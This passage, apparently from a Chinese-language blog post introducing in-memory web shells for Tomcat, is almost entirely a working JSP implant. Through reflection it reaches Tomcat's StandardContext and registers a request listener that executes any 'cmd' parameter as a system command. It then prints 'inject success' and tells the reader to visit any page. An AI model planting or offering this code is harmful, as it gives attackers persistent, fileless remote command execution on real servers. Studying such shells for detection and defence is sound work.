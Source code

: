 ```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="javax.servlet.http.HttpServlet" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>

<%
class S implements ServletRequestListener{
    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {
        
    }
    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");
        if(cmd != null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {}
        }
    }
}
%>

<%
ServletContext servletContext =  request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
S servletRequestListener = new S();
standardContext.addApplicationEventListener(servletRequestListener);
out.println("inject success");
%>
```

随便访问个界面

![image-20210926175358041](初探内存马/image-20210926175358041.png)
